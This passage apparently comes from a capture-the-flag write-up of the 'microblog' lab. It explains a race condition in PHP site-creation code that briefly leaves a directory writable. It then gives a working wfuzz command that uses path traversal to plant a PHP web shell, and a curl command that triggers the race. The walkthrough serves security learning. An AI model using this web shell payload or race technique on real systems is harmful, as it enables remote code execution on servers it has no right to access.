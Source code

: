            chdir(getcwd() . "/../");
            system("chmod -w microblog");
            header("Location: /dashboard?message=Site added successfully!&status=success");
        }
        else {
            header("Location: /dashboard?message=Site not added, authentication failed&status=fail");
        }



It makes `microblog` writable, and copies the template into that
directory. Then it makes the `content` folder writable, but then steps
up and sets the reset of the site not writable.

The issue is that there's a race condition there. For a very short
period of time, there's a writable directory that will allow PHP to run.

#### Exploit

To exploit this, I'll use `wfuzz` to send a lot of requests at once to
write into a site that doesn't exist:



    oxdf@hacky$ wfuzz -u http://10.10.11.213/edit/ -H "Host: race.microblog.htb" -b 'username=rbb8bp6umb0logs0i3sqlcp5kc' -d 'id=../0xdf.php&txt=<?php+system($_REQUEST["cmd"]);+?>&oops=FUZZ' -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt



I haven't created `race.microblog.htb` yet, but that's my `Host` header.
It's using my session cookie, and trying to write to the root of that
site. I've added an `oops` parameter just to have something to `FUZZ` so
`wfuzz` will send lots of requests at once. If I try something like
`curl` here in a `while true` loop, it's too slow.

Once I start this running, I'll create the site. For example, with this
`curl` command:



    oxdf@hacky$ curl -v app.microblog.htb/dashboard/ -b username=rbb8bp6umb0logs0i3sqlcp5kc -d new-blog-name=race



While the site is being created, `wfuzz` is throwing *tons* of requests
at it, and one is likely to land while the base directory for `race` is
writable. Once the site is created, I'll kill the `wfuzz` and check. The
webshell is there:

![](/img/image-20230515180123056.png)

#### Fix
